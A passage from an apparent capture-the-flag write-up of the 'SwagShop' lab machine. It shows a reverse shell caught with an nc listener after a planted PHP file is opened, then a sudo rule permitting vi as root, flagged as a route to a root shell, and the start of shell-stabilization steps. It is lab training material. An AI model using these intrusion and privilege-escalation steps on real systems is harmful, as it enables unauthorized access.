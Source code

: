 `/media` caught my attention after browsing through the files in it, eventually I came up with `/media/custom_options/order/s/h/9fc9c4d5c7557c9d5540779e702a6951.php`.

When I click on it, I trigger the reverse shell.

```console
$ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.140] 46646
Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 01:04:10 up 59 min,  0 users,  load average: 0.01, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ bash -i
bash: cannot set terminal process group (1364): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/$ whoami
whoami
www-data
www-data@swagshop:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@swagshop:/$ 
```

### We are in as `www-data@swagshop`.

The ***user flag*** is at `/home/haris/user.txt`. We can read it as `www-data`.

## `www-data` to `root`

Sudo check reveals the following:
```console
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

In [gtfobins](https://gtfobins.github.io/gtfobins/vi/), we can use `vi` to open up a shell. Since we are able to run `vi` as `root` without password, we should be able to spawn a root shell.

But in order to use `vi`, we have to stabilize our shell.

### Stabilizing the reverse shell

1. Press `ctrl + z` to put the program at background.
2. `echo $TERM`, and remember the type of your terminal.
```console
$ echo $TERM
xterm-256color
```
3. Check the dimension of your terminal (rows, columns).
```console
$ stty -a

speed 38400 baud; rows 42; columns 189; line = 0;
intr = ^C; quit = ^\; erase = ^H; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O;
min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
```